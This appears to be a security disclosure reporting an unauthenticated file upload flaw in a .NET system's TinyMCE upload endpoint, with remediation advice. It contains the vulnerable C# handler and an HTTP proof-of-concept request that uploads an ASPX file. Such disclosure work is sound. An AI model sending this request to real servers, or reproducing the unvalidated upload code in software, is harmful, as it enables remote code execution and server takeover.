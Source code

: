 ![image-20250203114541423](./assets/image-20250203114541423.png)

![image-20250203114606092](./assets/image-20250203114606092.png)

# Vulnerability Report

## Title: Unauthenticated File Upload Leading to Remote Code Execution (RCE)

### Summary:
An unauthenticated file upload vulnerability has been identified in the .NET system. This vulnerability allows an attacker to upload arbitrary files, including potentially malicious ASPX files, which can lead to remote code execution and full server compromise.

### Affected Endpoint:
`/Api/TinyMce/UploadAjaxAPI.ashx`

### Vulnerability Type:
Unauthenticated File Upload

### Vulnerable Code:
```csharp
else
{
    //上传其他文件 .pdf, .txt, .zip, .rar, .7z, .doc, .docx, .xls, .xlsx, .ppt, .pptx
    string path = "/fileRoot/tinymce/otherfile/" + Guid.NewGuid().ToString() + file.FileName;
    file.SaveAs(context.Request.MapPath(path));
    var obj = new
    {
        location = path,
        type = "file",
        name = file.FileName
    };
    string json = JsonConvert.SerializeObject(obj);
    context.Response.Write(json);
}
```

### Proof of Concept (PoC):
```http
POST /Api/TinyMce/UploadAjaxAPI.ashx HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryFfJZ4PlAZBixjELj
Accept: */*
Connection: close

------WebKitFormBoundaryFfJZ4PlAZBixjELj
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/jpeg

Test
------WebKitFormBoundaryFfJZ4PlAZBixjELj--
```

### Impact:
The vulnerability allows an attacker to upload any file, including executable files such as ASPX scripts. Once uploaded, the attacker can execute arbitrary code on the server, potentially gaining full control over the server, accessing sensitive data, modifying or deleting files, and performing other malicious activities.

### Recommendation:
1. **File Type Validation**: Implement strict validation to ensure only allowed file types can be uploaded. For example, only permit `.pdf`, `.txt`, `.zip`, `.rar`, `.7z`, `.doc`, `.docx`, `.xls`, `.xlsx`, `.ppt`, and `.pptx` file extensions.
2. **Authentication**: Require authentication for file upload endpoints to prevent unauthenticated users from uploading files.
3. **Content Inspection**: Perform content inspection to ensure uploaded files match their declared MIME types and do not contain executable code.
4. **Upload Directory Permissions**: Configure the upload directory with appropriate permissions to prevent execution of uploaded files.
5. **Logging and Monitoring**: Implement logging and monitoring for file upload activities to detect and respond to suspicious activities promptly.

### Conclusion:
The identified vulnerability poses a significant security risk as it allows unauthenticated users to upload and execute arbitrary files on the server. Immediate remediation is necessary to prevent potential exploitation and ensure the security of the server and its data.

### References:
- [OWASP File Upload Security](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- [Microsoft Secure Coding Guidelines](https://learn.microsoft.com/en-us/security/engineering/secure-coding)